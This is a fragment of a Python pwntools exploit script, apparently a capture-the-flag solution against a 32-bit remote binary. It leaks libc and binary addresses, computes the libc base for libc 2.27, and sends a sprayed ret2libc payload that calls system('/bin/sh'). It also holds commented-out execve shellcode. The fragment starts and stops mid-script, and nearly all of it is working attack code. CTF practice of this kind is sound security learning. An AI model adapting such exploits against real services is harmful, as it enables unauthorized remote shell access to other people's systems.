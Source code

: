 ```
#mov eax, 0xb
#push 0x68732f2f
#push 0x6e69622f
#mov ebx, esp
#int 0x80
#"""
#shellcode1 = asm(my_assembly)
#nopsled = """
#nop
#"""
#shellcode2 = asm(nopsled)

p.recvuntil(b"(y/n)", drop=True)
p.sendline(b'y')
p.recvuntil(b"is: ", drop=True)
leak_puts = p.recvline()
log.info(f"puts is @ {leak_puts}")

# puts last 3 bytes: b40 for remote
# offset of libc for remote is 0x067b40
# libc 2.27
libc_base = int(leak_puts, 16) - puts_offset
libc.address = libc_base
log.info(f"libc base @ {hex(libc_base)}")
# For local ==============================
#libc_system = libc.symbols["system"]
#libc_binsh = next(libc.search(b'/bin/sh\00'))
#assert(libc_binsh is not None)
# For remote ======================================
libc_system = libc_base + 0x03d200
libc_binsh = libc_base + 0x17e0cf

return_addr_junk = p32(0)
spray = return_addr_junk + p32(libc_system) + return_addr_junk + p32(libc_binsh)
align = b'a'*9
most_fav = align + spray*0x52

p.recvuntil(b"(y/n)", drop=True)
p.sendline(b'y')
p.recvuntil(b"number?", drop=True)
p.sendline(b'0')
p.recvuntil(b"fact!", drop=True)
payload = most_fav
p.sendline(payload)

p.recvuntil(b"(y/n)", drop=True)
p.sendline(b'y')

p.recvuntil(b"is: ", drop=True)
leak_get_number = p.recvline()
log.info(f"get_number is @ {leak_get_number}")
p.recvuntil(b"yours?", drop=True)
p.sendline(b'a')

binary_base = int(leak_get_number, 16) - int(0x713)
log.info(f"binary base at: {hex(binary_base)}")

p.recvuntil(b"not?", drop=True)
# ebx -> 'baac'
offset = cyclic_find("baac")
log.info(f"ebx @ {offset} with buffer size {int(0xd1)}")
address = p32(binary_base + 0x2fb4)

```